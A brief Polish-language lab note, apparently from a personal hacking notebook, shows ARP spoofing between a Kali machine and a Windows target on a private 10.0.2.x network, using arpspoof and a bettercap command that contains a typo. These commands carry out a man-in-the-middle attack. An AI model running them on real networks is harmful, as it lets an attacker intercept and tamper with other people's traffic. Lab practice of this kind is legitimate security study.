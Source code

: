 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# ARP spoof

**Win** 10.0.2.15

wylistowuje tablicę ARP

```
arp -a
```

**Kali** 10.0.2.17

podajemy najpierw ip windowsa którego atakujemy a potem default gateway

```
arpspoof -i eth0 -t 10.0.2.15 10.0.2.1
```

bettercap

```
bettercap -eval "set arp.spoof 10.0.2.15; ar.spoof on"
```
